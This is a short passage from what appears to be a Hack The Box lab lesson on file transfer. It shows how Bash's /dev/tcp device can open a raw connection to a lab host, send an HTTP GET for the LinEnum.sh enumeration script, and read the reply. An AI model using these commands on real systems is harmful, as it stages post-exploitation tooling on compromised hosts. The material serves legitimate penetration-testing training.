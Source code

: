 There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

#### Connect to the Target Webserver

Connect to the Target Webserver

```shell-session
glack@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```

#### HTTP GET Request

HTTP GET Request

```shell-session
glack@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response

Print the Response

```shell-session
glack@htb[/htb]$ cat <&3
```

---